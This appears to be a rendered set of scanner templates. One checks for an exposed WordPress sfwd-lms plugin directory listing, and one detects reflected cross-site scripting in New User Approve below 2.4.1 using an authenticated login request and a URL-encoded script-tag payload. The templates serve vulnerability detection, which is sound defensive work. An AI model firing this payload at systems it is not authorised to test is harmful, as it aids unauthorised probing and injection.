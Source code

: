 - {{BaseURL}}/wp-content/plugins/sfwd-lms/

### Matchers

**Type - word**

- words
  1. Index of
  2. wp-content/plugins/sfwd-lms
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress New User Approve \<2.4.1 - Cross-Site Scripting

## Description

- WordPress New User Approve 2.4.1 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wordpress,xss,authenticated,wp-plugin,wpscan,wp

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/index.php?a%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers
